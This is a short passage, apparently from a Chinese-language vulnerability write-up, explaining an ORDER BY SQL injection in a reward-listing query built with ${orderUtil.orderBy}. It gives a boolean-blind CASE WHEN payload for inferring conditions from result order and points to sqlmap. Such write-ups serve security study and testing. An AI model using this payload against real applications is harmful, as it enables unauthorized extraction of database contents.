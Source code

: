 ![image-20231222172432235](image-20231222172432235.png)

这里可以直接构造参数，也可以找到WEB页面抓包后，修改信息。对于order by注入，可以使用报错注入或者布尔盲注，这样报错不能使用，可以使用布尔注入。

```sql
#拼接后的sql语句为：
 SELECT
            reward_id,
            reward_name,
            reward_content,
            reward_createDate,
            reward_user_id,
            reward_state,
            reward_amount
        FROM reward
 ORDER BY ${orderUtil.orderBy}
 
 # 因为此时我们已经知道字段的，所以可以这样构造，
select * from users order by (case when (1=1) then  reward_id else reward_name end );
#根据回显的顺序不同，可以判断when的条件。这里直接上sqlmap。
```

![image-20231222193057078](image-20231222193057078.png)
